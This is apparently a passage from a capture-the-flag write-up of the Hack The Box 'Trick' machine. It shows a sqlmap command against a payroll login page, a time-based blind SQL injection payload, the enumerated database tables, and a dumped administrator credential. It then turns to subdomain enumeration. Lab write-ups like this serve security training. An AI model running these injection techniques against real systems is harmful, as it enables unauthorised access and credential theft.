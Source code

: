 * Interestingly, there is a `/database` folder
* Let's see if the webpage is SQLi vulnerable before we try to brute force the login
* Copy the login POST request as cCURL

```sh
sqlmap  'http://preprod-payroll.trick.htb/ajax.php?action=login' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' <SNIP> --batch --dbs

<SNIP>

---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 1110 FROM (SELECT(SLEEP(5)))BWTk) AND 'kbsu'='kbsu&password=admin
---

[*] information_schema
[*] payroll_db
```

```sh
[11 tables]
+---------------------+
| position            |
| allowances          |
| attendance          |
| deductions          |
| department          |
| employee            |
| employee_allowances |
| employee_deductions |
| payroll             |
| payroll_items       |
| users               |
+---------------------+
```

```sh
+----+-----------+---------------+------+---------+---------+-----------------------+------------+
| id | doctor_id | name          | type | address | contact | password              | username   |
+----+-----------+---------------+------+---------+---------+-----------------------+------------+
| 1  | 0         | Administrator | 1    | <blank> | <blank> | SuperGucciRainbowCake | Enemigosss |
+----+-----------+---------------+------+---------+---------+-----------------------+------------+

```

* We can now log into the web application and explore the admin panel!

![[./Screenshots/rms.png]]

* After enumerating this for a while, we could not find any vulnerabilities that would help us for a shell or similar
* So, if we take a look at the subdomain `preprod-payroll.trick.htb` we see that it starts with `preprod-` followed by a name, in this case `payroll`
* So lets try to find more subdomains matching this pattern
